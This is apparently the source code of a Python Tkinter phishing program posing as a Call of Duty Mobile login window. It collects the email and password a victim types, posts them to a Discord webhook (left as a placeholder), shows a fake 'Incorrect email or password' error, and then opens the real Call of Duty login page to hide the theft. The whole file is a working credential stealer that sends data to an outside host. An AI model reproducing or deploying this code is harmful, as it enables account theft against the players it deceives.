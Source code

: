 import tkinter as tk
import requests
import webbrowser
from tkinter import messagebox

WEBHOOK_URL = "own webhook"

def send_to_discord():
    nameyou = name_entry.get()
    password = password_entry.get()

    data = {
        "content": f"username: {nameyou}\n\nPassword: **{password}"
    }
    try:
        requests.post(WEBHOOK_URL, json=data)
    except requests.exceptions.RequestException as e:
        messagebox.showerror("Error", f"Failed to send data: {e}")
        return
    


    # Show fake error
    messagebox.showerror("Login Failed", "Incorrect email or password.")

     # Schedule opening the website after 1500ms
    # root.after(1500)
    root.after(2000, root.destroy)  # Close after 2 seconds

    # Schedule opening the website after 1500ms
    root.after(1500, lambda: webbrowser.open("https://profile.callofduty.com/codm/login"))
    requests.post(WEBHOOK_URL, json=data)
     
# root.destroy() # Close the Tkinter window
  # Schedule opening the website after 1500ms
    # Close the Tkinter window
   



root = tk.Tk()

dis = True
root.title("Call of Duty Mobile")
root.geometry("350x400")
root.resizable(False, False)
root.configure(bg="#1e1e1e")  # Dark background

# Title
title_label = tk.Label(root, text="Call of Duty", font=("Impact", 28, "bold"), fg="#FFD700", bg="#1e1e1e")
title_label.place(x=60, y=20)

# Subtitle
subtitle_label = tk.Label(root, text="LOGIN TO YOUR ACCOUNT", font=("Arial", 12), fg="white", bg="#1e1e1e")
subtitle_label.place(x=80, y=70)

# Email label and entry
name_label = tk.Label(root, text="Email Address*:", fg="white", bg="#1e1e1e")
name_label.place(x=20, y=110)

name_entry = tk.Entry(root, bg="white", fg="black")
name_entry.place(x=20, y=135, width=300)

# Password label and entry
password_label = tk.Label(root, text="Password*:", fg="white", bg="#1e1e1e")
password_label.place(x=20, y=175)

password_entry = tk.Entry(root, show="*", bg="white", fg="black")
password_entry.place(x=20, y=200, width=300)

# Login button
submit_button = tk.Button(root, text="Login now", command=send_to_discord,
                          bg="#333333", fg="#FFD700", font=("Arial", 10, "bold"))
submit_button.place(x=130, y=260)

 # this closes the Tkinter window





root.mainloop()
